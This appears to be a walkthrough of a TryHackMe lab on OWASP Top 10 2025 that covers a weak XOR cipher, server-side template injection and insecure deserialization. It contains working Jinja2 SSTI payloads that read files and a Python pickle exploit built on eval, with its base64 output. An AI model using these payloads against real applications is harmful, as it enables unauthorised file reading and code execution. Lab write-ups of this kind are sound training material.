









This is my write-up for the TryHackMe room on [OWASP Top 10 2025: Insecure Data Handling](https://tryhackme.com/room/owasptopten2025three).

I documented the steps I took, the payloads I tested, and the reasoning behind each move. Hopefully this write-up helps anyone who is currently learning or reviewing OWASP Top 10 concepts in a practical way.

## Task 1: Introduction

This room covers three elements of the OWASP Top 10 (2025) list related to application behaviour and user input: Cryptographic Failures (A04), Injection (A05), and Software or Data Integrity Failures (A08). You will learn about these vulnerabilities, how to prevent them, and practice exploiting them using a deployed Virtual Machine.

**I'm ready!**

> No answer needed

## Task 2: A04: Cryptographic Failures

Cryptographic failures occur when sensitive data is not adequately protected due to weak encryption algorithms (like MD5 or SHA1), lack of hashing, or poor key management. Prevention involves using strong, modern algorithms (like bcrypt for passwords) and never embedding credentials in source code. The practical exercise involves a note-sharing app using a weak shared key.

**Decrypt the encrypted notes. One of them will contain a flag value. What is it?**



Here we can open the page called Crypto Lab: Weak XOR Cipher. Then we can use CyberChef to decrypt the codes.



We can use From Base64 and XOR, then for the key_ we can try different values and eventually find the correct key1.



And the flag is found in confidential #3.



> THM{REDACTED}

## Task 3: A05: Injection

Injection happens when an application processes untrusted user input directly into a system (like a database or shell) without sanitization. Common types include SQL Injection, Command Injection, and Server Side Template Injection (SSTI). To prevent this, input should always be treated as untrusted, using parameterized queries and strict validation. The practical demonstrates an SSTI attack.

**Perform an SSTI attack on the practical. You need to read the contents of flag.txt that is located within the same directory as the web application.**



In the notes section, there is an important insight:

> Jinja2 templates can access Python objects when not sandboxed.  
> Look for builtins like config, request, cycler, joiner, lipsum.  
> Try payloads such as {{7*7}} or {{config.items()}} to explore.



From the example shown at the bottom, we can see a payload like:
{{ request.application.**globals**.**builtins**.open('flag.txt').read() }}

So we just need to adjust it using one of the available objects such as config, request, cycler, joiner, or lipsum. After several attempts, the flag was successfully retrieved using lipsum.
{{ lipsum.**globals**.**builtins**.open('flag.txt').read() }}


> THM{REDACTED}

## Task 4: A08: Software or Data Integrity Failures

This vulnerability occurs when applications rely on code, updates, or data without verifying their integrity or origin (e.g., unverified software updates or insecure deserialization). Prevention requires establishing trust boundaries and using cryptographic checks (checksums) to verify artifacts. The practical demonstrates a Python deserialization attack using the pickle module.

**Use Python to pickle a malicious, serialised payload that reads the contents of flag.txt and submits it to the application. What are the contents of flag.txt?**



When we open IP_MACHINE:8002, the solution is actually already provided. So we just need to run the given Python script.

```python
import pickle
import base64

class Malicious:
    def __reduce__(self):
        # Return a tuple: (callable, args)
        # This will execute: open('flag.txt').read()
        return (eval, ("open('flag.txt').read()",))

# Generate and encode the payload
payload = pickle.dumps(Malicious())
encoded = base64.b64encode(payload).decode()
print(encoded)
```



Run the script in Python until the encoded string is generated, then simply copy and paste it into the web deserialization field.

gASVMwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwXb3BlbignZmxhZy50eHQnKS5yZWFkKCmUhZRSlC4=



And we successfully obtain the flag.

> THM{REDACTED}
